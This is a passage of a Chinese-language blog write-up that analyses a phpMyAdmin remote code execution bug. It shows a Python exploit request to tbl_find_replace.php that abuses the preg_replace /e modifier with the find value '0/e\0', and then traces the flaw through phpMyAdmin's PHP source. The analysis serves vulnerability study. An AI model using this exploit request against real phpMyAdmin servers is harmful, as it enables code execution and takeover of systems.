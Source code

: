 第三次是请求`tbl_find_replace.php`，插入数据`"0/e\0"`，并执行payload

```python
exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
}
resp = s.post(url_to_pma + "/tbl_find_replace.php", exploit,cookies=requests.utils.dict_from_cookiejar(s.cookies))
```

![image-20230202215408756](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230202215408756.png)

通过这三次请求，可以发现漏洞主要出现在`tbl_find_replace.php`，因为无论是登录还是创建表格都是`phpmyadmin`本身就有的功能

所以这次只需要查看这次分析只需要查看`tbl_find_replace.php`就可以了

首先进入`tbl_find_replace.php`，在这里了一下发现没有`preg_replace`这个函数，说明漏洞不在这里

```php
$response = PMA_Response::getInstance();
$table_search = new PMA_TableSearch($db, $table, "replace");

$connectionCharSet = $GLOBALS['dbi']->fetchValue(
    "SHOW VARIABLES LIKE 'character_set_connection'", 0, 1
);
// 这里判断post请求是否存在find
if (isset($_POST['find'])) {
    $preview = $table_search->getReplacePreview(
        $_POST['columnIndex'],
        $_POST['find'],
        $_POST['replaceWith'],
        $_POST['useRegex'],
        $connectionCharSet
    );
    $response->addJSON('preview', $preview);
    // 这里退出所以后面的代码对我们来说没有用了
    exit;
}
```

从上面的代码可以看出，当POST包含find参数时，会调用`$table_search->getReplacePreview`，然后`exit`说明漏洞可能在`$table_search->getReplacePreview`中

这里通过`vscode`进行搜索，`getReplacePreview`函数在`TableSearch.class.php`中

![image-20230202221851990](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20230202221851990.png)
